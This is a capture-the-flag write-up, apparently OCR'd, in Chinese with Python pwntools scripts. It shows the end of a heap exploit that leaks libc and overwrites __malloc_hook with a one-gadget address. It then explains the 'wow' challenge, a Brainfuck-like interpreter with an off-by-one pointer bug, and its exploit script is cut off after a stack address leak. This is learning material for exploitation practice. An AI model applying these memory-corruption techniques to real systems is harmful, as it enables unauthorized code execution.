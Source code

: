 ```python
		add(7,0x60,'a')
		add(8,0x60,'\x00'*0x33+p64(0x0FBAD1887) +p64(0)*3 + '\x88')
		r.recvuntil('\n')
                lbase = u64(r.recv(8)) - libc.sym['_IO_2_1_stdin_']
		print 'libc:\t' + hex(lbase)
		malloc_hook = lbase + libc.symbols['__malloc_hook']
		#gd()
		one = lbase + 0xF1207
		free(6)
		free(0)
		add(0,0x18,'a'*0x18+'\xf1')
		free(5)
		add(1,0x50,'a')
		add(5,0x70,p64(malloc_hook-0x23))
		free(1)
		add(1,0x58,'a'*0x58+'\x71')
		add(9,0x60,'a')
		add(10,0x60,'\x00'*0x13+p64(one))
		r.interactive()
	except:
		r.close()
        
```

### wow

跟rctf的bf很像//感觉就是那题的静态编译。
opcode对应如下：
```
@ pointer ++
# pointer --
^ val ++
| val --
& write
$ read
```
跟brainfuck的语法一样。c++静态编译。
漏洞点在于指针++时候先check有没有越界再++
导致了实际指针可以溢出一位，修改写入的string。
漏洞跟利用过程跟rctf的bf接近一模一样。
需要注意的是最后需要修复string。
```python
from pwn import *
def gd(cmd=''):
    gdb.attach(r,cmd)
    pause()

def run(code):
    r.sendlineafter('code:',code)
while True:
    try:
        #r=remote('101.200.53.148',15324)
        r=process('./wow')
        py='^{@^}$'
        run(py)
        r.send(chr(0x10))
        r.recvuntil('ne! your code: ')
        leak=u64(r.recv(6).ljust(8,'\x00'))
        assert(leak&0xff==0x10)
        assert(leak>>40 ==0x7f)
        print 'leak '+hex(leak)
        esp=leak-0x4b8
        print 'esp '+hex(esp)
        r.recvuntil('continue?')
```
